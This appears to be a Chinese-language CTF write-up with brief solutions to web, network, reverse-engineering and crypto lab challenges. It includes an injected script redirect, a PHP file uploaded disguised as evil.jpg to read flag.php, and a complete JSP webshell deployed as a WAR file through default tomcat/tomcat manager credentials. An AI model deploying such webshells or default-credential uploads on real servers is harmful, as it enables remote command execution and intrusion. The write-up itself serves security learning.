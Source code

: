 ## QR Code

打开就能看到二维码，然后用PS把左下角补上（一个方框）

## calculator

nc连上，发现要计算一道很长的数学题，果断用python脚本

```
from pwn import *
import numexpr

io = remote('10.214.160.13', 11002)
# print(io.recvuntil('='))
eq = ''
while not eq.startswith('AAA'):
    eq = io.recv()
    eq = eq.strip()
    print(eq)
    print(eq[0])
    if eq[0].isdigit():
        re = numexpr.evaluate(eq.split('=')[0])
        print(re)
        io.sendline(str(re))
# io.interactive()
```

## linkedlist

首先要计算一个字符串的md5，可以上[这个网站](https://www.md5hashgenerator.com/)，然后我们得到
![](imgs/memcache.png)

然后执行python脚本得到flag
```
from pymemcache.client.base import Client

client = Client(('10.214.160.13', <port>))
result = client.get('start')
while result != '1':
    print(result)
    result = client.get(result)
```

## EasyWeb

顾名思义，很简单的web题目，
第一关，用chrome的inspect功能或者view page source得到相应文件内含第二关网址
第二关，有个输入框和按钮，点击按钮出现“你从哪里来”，然后自动跳回之前的页面，这里我们在输入框中输入 `<script> window.location="3rd.php" </script>` 即可解决，进入第三关
第三关，有个按钮，点击进入一个页面，然而没有任何有用信息，这时想到看http的response，chrome inspect->network->看到response headers上有信息
![](easyweb.png)
最后，修改下button属性和script得到flag

## SQL Injuection

用sqlmap可以解出

## Scan

nmap解出一个端口，到指定网站，然后用DirBuster破解（不需要recursive)

## git leak

用githack解出

## dangerous flask

修改女神的value，进入traceback，得到flag

## php include

将
```
#!php
<?php
$html=file_get_contents('flag.php');
echo $html;
eval("echo %html");
?>
```
存为`evil.jpg`上传，然后首页的f改为图片上传得到的url，看下源码，就得到flag了


## War of tomcat

登录url/manager,发现tomcat管理登录，随便网上搜一下发现默认用户名密码都是tomcat，接下来写一个jsp改成war上传，我写的是这样子的：
```
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

我用的是`zip index.jsp webshell.war` 因为没有wsl下没找到`jar`这个命令


## flag403

TBC

## Reverse1

打开idapro7.0（需要x86 disassembler)，发现flag是一些数字xor12得到的。据此逆向（我很菜所以写了个python脚本）得到flag
```
n = [77,77,77,119,106,97,117,96,83,93,93,83,125,121,98,83,63,52,58,59,53,58,60,52,60,113]
print(len(n))
for i in range(26):
    c = (n[i] ) ^ 12
    print(chr(c), end="")
```

## apk01 baby

根据提示使用dex2jar和jd-gui 

## Simple RSA

见[脚本](crack.py)

## Format String

TBC
